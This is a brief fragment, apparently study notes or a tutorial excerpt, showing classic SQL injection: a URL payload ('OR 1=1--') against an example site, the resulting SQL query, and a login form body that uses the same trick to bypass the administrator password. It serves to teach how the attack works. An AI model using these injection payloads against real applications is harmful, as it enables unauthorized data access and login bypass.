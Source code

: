SQLi
is that easy

https://insecure-website.com/products?category=Gifts'+OR+1=1--

This results in the SQL query:
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

csrf=7SPxzGnSXOciUDIY4cCaQ52E7ilIWdcy&username=administrator&password=test'OR+1=1--
